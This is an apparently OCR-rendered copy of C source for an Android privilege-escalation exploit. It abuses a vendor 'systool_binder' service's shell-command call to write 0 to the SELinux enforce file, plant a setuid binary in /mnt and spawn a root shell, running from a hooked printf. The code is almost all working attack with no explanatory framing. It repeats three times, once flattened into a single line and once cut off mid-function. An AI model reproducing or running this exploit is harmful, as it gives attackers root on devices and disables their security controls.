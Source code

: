 system("ln -s /sys/fs/selinux/enforce /tmp/monitor.bin");

system("echo -n'0'> /data/local/tmp/zero");

systoolExecShellCmdV2("/data/local/tmp/zero");

system("rm /data/local/tmp/zero");

system("rm /tmp/monitor.bin");

fprintf(stderr, "[*] setting up suid\n");

system("chmod +s /data/local/tmp/escalate");

fprintf(stderr, "[*] copying suid to /mnt\n");

system("ln -s /mnt/escalate /tmp/monitor.bin");

systoolExecShellCmdV2("/data/local/tmp/escalate");

system("rm /tmp/monitor.bin");

fprintf(stderr, "[*] spawning shell\n");

execve("/mnt/escalate", NULL, NULL);

#include <errno.h> #include <fcntl.h> #include <inttypes.h> #include <stdlib.h> #include <string.h> #include <stdio.h> #include <dlfcn.h> #include <unistd.h> #include "binder.h" struct binder_state *g_binder_state; uint32_t target; int binder_init() { struct binder_state* bs; bs = binder_open(128*1024); if (!bs) { fprintf(stderr, "failed to open binder driver\n"); return -1; } char b[0x200]; struct binder_io a; struct binder_io c; bio_init(&a, &b, 0x200, 4); bio_put_uint32(&a, 0); bio_put_string16_x(&a, "android.os.IServiceManager"); bio_put_string16_x(&a, "systool_binder"); int status = binder_call(bs, &a, &c, 0, 2); if (status == 0) { int status2 = bio_get_ref(&c); if (status2 != 0) { target = status2; binder_acquire(bs, status2); } binder_done(bs, &a, &c); } g_binder_state = bs; return 0; } void systoolExecShellCmdV2(char* src) { struct binder_io msg; struct binder_io reply; char buf[0x200]; bio_init(&msg, buf, 0x200, 4); bio_put_uint32(&msg, 0); bio_put_string16_x(&msg, "SystoolBinder"); bio_put_uint32(&msg, 3); // cmd bio_put_uint32(&msg, 1); // subcmd bio_put_uint32(&msg, 1); // num arguments bio_put_string16_x(&msg, src); int status = binder_call(g_binder_state, &msg, &reply, target, 18); if (status == 0) { int ret1 = bio_get_uint32(&reply); int ret2 = bio_get_uint32(&reply); binder_done(g_binder_state, &msg, &reply); printf("ExecShellCmdV2: ret1=%d ret2=%d\n", ret1, ret2); } } int executed = 0; int printf(const char* __fmt, ...) { if (executed) return 0; executed = 1; pid_t pid = getpid(); fprintf(stderr, "[*] Hello from PID %d\n", pid); char linkbuf[0x100]; readlink("/proc/self/exe", linkbuf, 0x100); fprintf(stderr, "[*] /proc/self/exe is pointing at %s\n", linkbuf); binder_init(); // prep system("rm /tmp/monitor.bin"); fprintf(stderr, "[*] disabling fs selinux\n"); system("ln -s /sys/fs/selinux/enforce /tmp/monitor.bin"); system("echo -n'0'> /data/local/tmp/zero"); systoolExecShellCmdV2("/data/local/tmp/zero"); // cleanup system("rm /data/local/tmp/zero"); system("rm /tmp/monitor.bin"); fprintf(stderr, "[*] setting up suid\n"); system("chmod +s /data/local/tmp/escalate"); fprintf(stderr, "[*] copying suid to /mnt\n"); system("ln -s /mnt/escalate /tmp/monitor.bin"); systoolExecShellCmdV2("/data/local/tmp/escalate"); // cleanup system("rm /tmp/monitor.bin"); fprintf(stderr, "[*] spawning shell\n"); execve("/mnt/escalate", NULL, NULL); return 0; }

```
#include <errno.h>
#include <fcntl.h>
#include <inttypes.h>
#include <stdlib.h>
#include <string.h>
#include <stdio.h>
#include <dlfcn.h>
#include <unistd.h>
#include "binder.h"

struct binder_state *g_binder_state;
uint32_t target;

int binder_init() {
    struct binder_state* bs;
    bs = binder_open(128*1024);
    if (!bs) {
        fprintf(stderr, "failed to open binder driver\n");
```